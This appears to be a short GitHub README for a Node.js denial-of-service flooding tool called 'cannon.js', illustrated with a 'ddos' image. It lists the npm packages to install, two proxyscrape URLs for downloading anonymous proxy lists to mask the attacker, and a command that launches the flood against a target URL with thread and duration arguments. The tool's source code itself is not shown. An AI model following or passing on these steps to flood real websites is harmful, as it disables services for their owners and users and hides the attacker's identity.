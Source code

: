 ![ddos](https://user-images.githubusercontent.com/101634873/192137686-1f64af70-85ad-4516-92e6-7cf6f2f97a7d.png)

**Install Packages:**
```
npm install request colors
```
**Download Proxy:**
```
https://api.proxyscrape.com/v2/?request=displayproxies&protocol=http&timeout=1000000&country=all&ssl=all&anonymity=all
https://api.proxyscrape.com/?request=displayproxies&proxytype=http&anonymity=elite
```
**Example:** 
```
node cannon.js GET 4 https://target.com <threads> <time>
```
